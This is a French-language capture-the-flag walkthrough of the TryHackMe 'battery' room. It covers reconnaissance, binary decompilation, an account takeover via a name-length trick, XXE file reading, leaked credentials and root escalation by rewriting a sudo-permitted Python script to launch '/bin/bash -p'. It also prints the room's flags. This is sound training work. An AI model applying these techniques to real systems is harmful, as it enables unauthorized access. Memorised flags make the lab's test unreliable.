










# battery #

## Task 1 battery ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.37.52 battery.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A battery.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-13 07:30 CEST
Nmap scan report for battery.thm (10.10.37.52)
Host is up (0.033s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 14:6b:67:4c:1e:89:eb:cd:47:a2:40:6f:5f:5c:8c:c2 (DSA)
|   2048 66:42:f7:91:e4:7b:c6:7e:47:17:c6:27:a7:bc:6e:73 (RSA)
|   256 a8:6a:92:ca:12:af:85:42:e4:9c:2b:0e:b5:fb:a8:8b (ECDSA)
|_  256 62:e4:a3:f6:c6:19:ad:30:0a:30:a1:eb:4a:d3:12:d3 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=9/13%OT=22%CT=1%CU=42455%PV=Y%DS=2%DC=T%G=Y%TM=613EE21
OS:B%P=x86_64-pc-linux-gnu)SEQ(SP=F0%GCD=1%ISR=108%TI=Z%CI=I%II=I%TS=8)OPS(
OS:O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST11
OS:NW6%O6=M506ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(
OS:R=Y%DF=Y%T=40%W=6903%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   32.14 ms 10.9.0.1
2   32.47 ms battery.thm (10.10.37.52)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.81 seconds

```

On remarque 2 services qui sont : 
Le service SSH sur le port 22.  
Le service HTTP sur le port 80. 



Sur la page principale il y a pas grand chose.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://battery.thm/ -w /usr/share/dirb/wordlists/common.txt -q
/.hta                 (Status: 403) [Size: 282]
/.htpasswd            (Status: 403) [Size: 287]
/.htaccess            (Status: 403) [Size: 287]
/admin.php            (Status: 200) [Size: 663]
/index.html           (Status: 200) [Size: 406]
/report               (Status: 200) [Size: 16912]
/scripts              (Status: 301) [Size: 311] [--> http://battery.thm/scripts/]
/server-status        (Status: 403) [Size: 291]                                  
```

On trouve plusieurs fichiers et répertoires.

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget http://battery.thm/report -nv
2021-09-13 07:41:52 URL:http://battery.thm/report [16912/16912] -> "report" [1]

tim@kali:~/Bureau/tryhackme/write-up$ file report 
report: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=44ffe4e81d688f7b7fe59bdf74b03f828a4ef3fe, for GNU/Linux 3.2.0, not stripped
```

Dans le répertoire report on trouve un fichier binaire.  
On le télécharge.  

```cpp
undefined8 main(void)

{
  int iVar1;
  int local_8c;
  char local_88 [32];
  char local_68 [32];
  undefined local_48 [32];
  undefined local_28 [32];
  
  local_8c = 0;
  puts("\n\n\n");
  puts("Welcome To ABC DEF Bank Managemet System!\n\n");
  printf("UserName : ");
  __isoc99_scanf(&DAT_001021f0,local_68);
  puts("\n");
  printf("Password : ");
  __isoc99_scanf(&DAT_001021f0,local_88);
  iVar1 = strcmp(local_68,"guest");
  if ((iVar1 == 0) && (iVar1 = strcmp(local_88,"guest"), iVar1 == 0)) {
    options();
    while (local_8c != 5) {
      printf("Your Choice : ");
      __isoc99_scanf(&DAT_00102216,&local_8c);
      if (local_8c == 1) {
        users();
      }
      else {
        if (local_8c == 4) {
          printf("email : ");
          __isoc99_scanf(&DAT_001021f0,local_28);
          puts("\n");
          printf("Password : ");
          __isoc99_scanf(&DAT_001021f0,local_48);
          update(local_28,local_48,local_48);
        }
        else {
          if ((local_8c == 3) || (local_8c == 2)) {
            puts("not available for guest account\n");
            system("clear");
            options();
          }
          else {
            puts("Wrong option\n");
            system("clear");
            options();
          }
        }
      }
    }
  }
  else {
    printf("Wrong username or password");
  }
  return 0;
}
```

On décompile le programme avec ghidra.  

```cpp
 printf("UserName : ");
  __isoc99_scanf(&DAT_001021f0,local_68);
  puts("\n");
  printf("Password : ");
  __isoc99_scanf(&DAT_001021f0,local_88);
  iVar1 = strcmp(local_68,"guest");
  if ((iVar1 == 0) && (iVar1 = strcmp(local_88,"guest"), iVar1 == 0)) {
```

On remarque que l'on accéder aux options avec le nom et le mot de passe guest.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ chmod +x report

Welcome To ABC DEF Bank Managemet System!


UserName : guest


Password : guest

===================Available Options==============

1. Check users
2. Add user
3. Delete user
4. change password
5. Exit
Your Choice : 1

===============List of active users================
support@bank.a
contact@bank.a
cyber@bank.a
admins@bank.a
sam@bank.a
admin0@bank.a
super_user@bank.a
admin@bank.a
control_admin@bank.a
it_admin@bank.a


Welcome Guest

===================Available Options==============

1. Check users
2. Add user
3. Delete user
4. change password
5. Exit
Your Choice : 
```

Avec le mot de passe et le nom guess.   
Dans les options Check user on trouve une liste d'email.    

   

On créer un nouveau compte.   

   

on se connecte sur notre nouveau compte.  

 

Dans le tableau de bord on trouve la section de command.



Quand on clique dessus il nous dit que seulement les administrateurs peuvent accéder à cette page.   
La page pour accéder à la section command est forms.php.   



Nous remarquons que dans le champ des noms on ne peut pas mettre plus de 12 caractères.   



Avec burp on intercepte l'envoi et on ajoute un caractère a à la fin du nom.    



Maintenant on peut se loger avec le compte admin@bank.a 
Quand on clique sur command on a un message d'erreur Sorry, account number is not active !.  




En faisant un injection xxe on peut lire la fichier /etc/passwd.   
Pour plus d'inforamtion sur la faille [xxe](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing).
On remarque un utilisateur cyber existe sur notre cible.  



On regarde récupère le contenu de la page acc.php qui permet de voir mon compte pour analyse.   

```php
tim@kali:~/Bureau/tryhackme/write-up$ echo 'PCFET0NUWVBFIGh0bWw+CjxodG1sPgo8aGVhZD4KPHN0eWxlPgpmb3JtCnsKICBib3JkZXI6IDJweCBzb2xpZCBibGFjazsKICBvdXRsaW5lOiAjNENBRjUwIHNvbGlkIDNweDsKICBtYXJnaW46IGF1dG87CiAgd2lkdGg6MTgwcHg7CiAgcGFkZGluZzogMjBweDsKICB0ZXh0LWFsaWduOiBjZW50ZXI7Cn0KCgp1bCB7CiAgbGlzdC1zdHlsZS10eXBlOiBub25lOwogIG1hcmdpbjogMDsKICBwYWRkaW5nOiAwOwogIG92ZXJmbG93OiBoaWRkZW47CiAgYmFja2dyb3VuZC1jb2xvcjogIzMzMzsKfQoKbGkgewogIGZsb2F0OiBsZWZ0OwogIGJvcmRlci1yaWdodDoxcHggc29saWQgI2JiYjsKfQoKbGk6bGFzdC1jaGlsZCB7CiAgYm9yZGVyLXJpZ2h0OiBub25lOwp9CgpsaSBhIHsKICBkaXNwbGF5OiBibG9jazsKICBjb2xvcjogd2hpdGU7CiAgdGV4dC1hbGlnbjogY2VudGVyOwogIHBhZGRpbmc6IDE0cHggMTZweDsKICB0ZXh0LWRlY29yYXRpb246IG5vbmU7Cn0KCmxpIGE6aG92ZXI6bm90KC5hY3RpdmUpIHsKICBiYWNrZ3JvdW5kLWNvbG9yOiAjMTExOwp9CgouYWN0aXZlIHsKICBiYWNrZ3JvdW5kLWNvbG9yOiBibHVlOwp9Cjwvc3R5bGU+CjwvaGVhZD4KPGJvZHk+Cgo8dWw+CiAgPGxpPjxhIGhyZWY9ImRhc2hib2FyZC5waHAiPkRhc2hib2FyZDwvYT48L2xpPgogIDxsaT48YSBocmVmPSJ3aXRoLnBocCI+V2l0aGRyYXcgTW9uZXk8L2E+PC9saT4KICA8bGk+PGEgaHJlZj0iZGVwby5waHAiPkRlcG9zaXQgTW9uZXk8L2E+PC9saT4KICA8bGk+PGEgaHJlZj0idHJhLnBocCI+VHJhbnNmZXIgTW9uZXk8L2E+PC9saT4KICA8bGk+PGEgaHJlZj0iYWNjLnBocCI+TXkgQWNjb3VudDwvYT48L2xpPgogIDxsaT48YSBocmVmPSJmb3Jtcy5waHAiPmNvbW1hbmQ8L2E+PC9saT4KICA8bGk+PGEgaHJlZj0ibG9nb3V0LnBocCI+TG9nb3V0PC9hPjwvbGk+CiAgPGxpIHN0eWxlPSJmbG9hdDpyaWdodCI+PGEgaHJlZj0iY29udGFjdC5waHAiPkNvbnRhY3QgVXM8L2E+PC9saT4KPC91bD48YnI+PGJyPjxicj48YnI+Cgo8L2JvZHk+CjwvaHRtbD4KCjw/cGhwCgpzZXNzaW9uX3N0YXJ0KCk7CmlmKGlzc2V0KCRfU0VTU0lPTlsnZmF2Y29sb3InXSkgYW5kICRfU0VTU0lPTlsnZmF2Y29sb3InXT09PSJhZG1pbkBiYW5rLmEiKQp7CgplY2hvICI8aDMgc3R5bGU9J3RleHQtYWxpZ246Y2VudGVyOyc+V2VjbG9tZSB0byBBY2NvdW50IGNvbnRyb2wgcGFuZWw8L2gzPiI7CmVjaG8gIjxmb3JtIG1ldGhvZD0nUE9TVCc+IjsKZWNobyAiPGlucHV0IHR5cGU9J3RleHQnIHBsYWNlaG9sZGVyPSdBY2NvdW50IG51bWJlcicgbmFtZT0nYWNubyc+IjsKZWNobyAiPGJyPjxicj48YnI+IjsKZWNobyAiPGlucHV0IHR5cGU9J3RleHQnIHBsYWNlaG9sZGVyPSdNZXNzYWdlJyBuYW1lPSdtc2cnPiI7CmVjaG8gIjxpbnB1dCB0eXBlPSdzdWJtaXQnIHZhbHVlPSdTZW5kJyBuYW1lPSdidG4nPiI7CmVjaG8gIjwvZm9ybT4iOwovL01ZIENSRURTIDotIGN5YmVyOnN1cGVyI3NlY3VyZSZwYXNzd29yZCEKaWYoaXNzZXQoJF9QT1NUWydidG4nXSkpCnsKJG1zPSRfUE9TVFsnbXNnJ107CmVjaG8gIm1zOiIuJG1zOwppZigkbXM9PT0iaWQiKQp7CnN5c3RlbSgkbXMpOwp9CmVsc2UgaWYoJG1zPT09Indob2FtaSIpCnsKc3lzdGVtKCRtcyk7Cn0KZWxzZQp7CmVjaG8gIjxzY3JpcHQ+YWxlcnQoJ1JDRSBEZXRlY3RlZCEnKTwvc2NyaXB0PiI7CnNlc3Npb25fZGVzdHJveSgpOwp1bnNldCgkX1NFU1NJT05bJ2ZhdmNvbG9yJ10pOwpoZWFkZXIoIlJlZnJlc2g6IDAuMTsgdXJsPWluZGV4Lmh0bWwiKTsKfQp9Cn0KZWxzZQp7CmVjaG8gIjxzY3JpcHQ+YWxlcnQoJ09ubHkgQWRtaW5zIGNhbiBhY2Nlc3MgdGhpcyBwYWdlIScpPC9zY3JpcHQ+IjsKc2Vzc2lvbl9kZXN0cm95KCk7CnVuc2V0KCRfU0VTU0lPTlsnZmF2Y29sb3InXSk7CmhlYWRlcigiUmVmcmVzaDogMC4xOyB1cmw9aW5kZXguaHRtbCIpOwp9Cj8+Cg==' | base64 -d
<!DOCTYPE html>
<html>
<head>
<style>
form
{
  border: 2px solid black;
  outline: #4CAF50 solid 3px;
  margin: auto;
  width:180px;
  padding: 20px;
  text-align: center;
}


ul {
  list-style-type: none;
  margin: 0;
  padding: 0;
  overflow: hidden;
  background-color: #333;
}

li {
  float: left;
  border-right:1px solid #bbb;
}

li:last-child {
  border-right: none;
}

li a {
  display: block;
  color: white;
  text-align: center;
  padding: 14px 16px;
  text-decoration: none;
}

li a:hover:not(.active) {
  background-color: #111;
}

.active {
  background-color: blue;
}
</style>
</head>
<body>

<ul>
  <li><a href="dashboard.php">Dashboard</a></li>
  <li><a href="with.php">Withdraw Money</a></li>
  <li><a href="depo.php">Deposit Money</a></li>
  <li><a href="tra.php">Transfer Money</a></li>
  <li><a href="acc.php">My Account</a></li>
  <li><a href="forms.php">command</a></li>
  <li><a href="logout.php">Logout</a></li>
  <li style="float:right"><a href="contact.php">Contact Us</a></li>
</ul><br><br><br><br>

</body>
</html>

<?php

session_start();
if(isset($_SESSION['favcolor']) and $_SESSION['favcolor']==="admin@bank.a")
{

echo "<h3 style='text-align:center;'>Weclome to Account control panel</h3>";
echo "<form method='POST'>";
echo "<input type='text' placeholder='Account number' name='acno'>";
echo "<br><br><br>";
echo "<input type='text' placeholder='Message' name='msg'>";
echo "<input type='submit' value='Send' name='btn'>";
echo "</form>";
//MY CREDS :- cyber:super#secure&password!
if(isset($_POST['btn']))
{
$ms=$_POST['msg'];
echo "ms:".$ms;
if($ms==="id")
{
system($ms);
}
else if($ms==="whoami")
{
system($ms);
}
else
{
echo "<script>alert('RCE Detected!')</script>";
session_destroy();
unset($_SESSION['favcolor']);
header("Refresh: 0.1; url=index.html");
}
}
}
else
{
echo "<script>alert('Only Admins can access this page!')</script>";
session_destroy();
unset($_SESSION['favcolor']);
header("Refresh: 0.1; url=index.html");
}
?>
```

```php
//MY CREDS :- cyber:super#secure&password!
```

Dans un des commentaires du fichier on trouve les identifiants de cyber :  
Nom : cyber
Mot de passe : super#secure&password!  

**Base Flag :**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh cyber@battery.thm
The authenticity of host 'battery.thm (10.10.37.52)' can't be established.
ECDSA key fingerprint is SHA256:c9sY2KXgaZcdbNs+CMqIPIpXQfItrLowDESwfb831Wg.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'battery.thm,10.10.37.52' (ECDSA) to the list of known hosts.
cyber@battery.thm's password: 
Welcome to Ubuntu 14.04.1 LTS (GNU/Linux 3.13.0-32-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

  System information as of Mon Sep 13 10:58:33 IST 2021

  System load:  3.22              Processes:           92
  Usage of /:   2.4% of 68.28GB   Users logged in:     0
  Memory usage: 12%               IP address for eth0: 10.10.37.52
  Swap usage:   0%

  => There is 1 zombie process.

  Graph this data and manage this system at:
    https://landscape.canonical.com/

Last login: Tue Nov 17 17:02:47 2020 from 192.168.29.248
yber@ubuntu:~$ ls
flag1.txt  run.py
cyber@ubuntu:~$ cat flag1.txt
THM{6f7e4dd134e19af144c88e4fe46c67ea}

Sorry I am not good in designing ascii art :(

```

On obtient un shell avec les droits cyber.  
On lit le fichier flag1.txt

La réponse est : THM{6f7e4dd134e19af144c88e4fe46c67ea}  

**User Flag :**

```bash
er@ubuntu:~$ sudo -l
Matching Defaults entries for cyber on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cyber may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/python3 /home/cyber/run.py
```

La configuration de sudo nous permet d'exécuter run.py avec les droits root sans mot de passe.  

```bash
cyber@ubuntu:~$ sudo /usr/bin/python3 /home/cyber/run.py
Hey Cyber I have tested all the main components of our web server but something unusal happened from my end!
rm: remove write-protected regular file ‘run.py’? y

cyber@ubuntu:~$ echo 'import os;' > run.py
cyber@ubuntu:~$ echo "os.system('/bin/bash -p')" >> run.py
cyber@ubuntu:~$ sudo /usr/bin/python3 /home/cyber/run.py

root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
```

On efface le fichier run.py car on possède les droits sur le répertoire cyber.  
On crée un fichier run.py qui exécute un bash permanent.   
On exécute le fichier run.py avec sudo et on obtient un shell avec les droits root.   

```bash
cyber  yash
root@ubuntu:~# cd /home/yash
root@ubuntu:/home/yash# ls 
emergency.py  fernet  flag2.txt  root.txt
root@ubuntu:/home/yash# cat flag2.txt 
THM{20c1d18791a246001f5df7867d4e6bf5}
```

On voit un autre utilisateur qui est yash.  
On trouve un fichier flag2.txt et on le lit. 

Le réponse est : THM{20c1d18791a246001f5df7867d4e6bf5}  

**Root Flag :**

```bash
root@ubuntu:/home/yash# cd /root
root@ubuntu:/root# ls
root.txt
root@ubuntu:/root# cat root.txt
████████████████████████████████████  
██                                ██  
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██                                ██  
████████████████████████████████████  


						battery designed by cyberbot :)
						Please give your reviews on catch_me75@protonmail.com or discord cyberbot#1859


THM{db12b4451d5e70e2a177880ecfe3428d}
```

On trouve un fichier root.txt dans root, on le lit.  

